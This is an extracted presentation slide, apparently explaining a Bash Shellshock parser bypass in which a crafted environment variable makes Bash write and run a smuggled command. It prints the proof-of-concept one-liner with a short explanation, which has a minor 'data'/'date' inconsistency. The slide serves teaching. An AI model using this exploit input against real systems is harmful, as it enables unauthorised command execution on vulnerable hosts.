

# Hard to Fix
env X='() { (a)=>\' sh -c "echo date"; cat echo
‘(a)=‘ is to trigger an error
Then only ‘>\’ left in the buffer
Bash will then put ‘echo data’ in the buffer to execute

>\
echo date             >echo date               date >echo